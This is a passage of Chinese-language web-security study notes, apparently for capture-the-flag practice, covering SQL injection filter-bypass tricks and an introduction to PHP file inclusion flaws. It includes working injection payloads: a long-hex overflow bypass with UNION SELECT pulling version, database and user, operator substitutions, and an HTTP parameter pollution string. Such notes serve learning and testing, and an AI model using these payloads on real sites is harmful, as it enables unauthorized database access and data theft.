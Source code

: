 **缓冲区溢出绕过**:

- ~~~sql
  (id=1 and (select 1)
   =(Select 0xAAAAAAAAAAAAAAAAAAAAA)+
  UnIoN+
  SeLeCT+
  1,2,version(),4,5,database(),user(),
  8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36–+
  
  ~~~

- 其中 0xAAAAAAAAAAAAAAAAAAAAA 这里 A 越多越好，一般会存在临界值，其实这种方法还对后缀名的绕过也有用

**逻辑符号绕过**：

- and=&&、or=||、xor=|、not=!

**Http 参数污染**：

- ~~~sql
  (id=1 union select+1,2,3+from+users+where+id=1–变为id=1 union select+1&id=2,3+from+users+where+id=1–)
  ~~~



## 经验之谈

当存在某类字符回显，某类字符不回显，可以猜测 SQL 存在或判断

一般流程是字段=》表=》库

字段显示不全的时候，可以使用 right 函数截取





# PHP

## 文件包含漏洞

### 1、概述

把重复使用的函数写到单个文件中，需要使用某个函数时直接调用此文件，无需再次编写，这种文件调用的过程一般被称为文件包含

涉及到的危险函数有四个，分别是：

- **include**：包含并运行指定的文件，包含文件发生错误时，程序警告，但会继续执行
- **include_once**：和 include 类似，不同处在于 include_once 会检查这个文件是否已经被导入，仅导入一次
- **require**：包含并运行指定的文件，包含文件发生错误时，程序直接终止执行
- **require_once**：和 require 类似，不同处在于 require_once 只导入一次

当看到 PHP 代码中发现以上四个函数时，可以尝试文件包含漏洞，对于不知道 flag 文件路径的，可以尝试目录遍历漏洞或命令执行漏洞来寻找 flag 文件
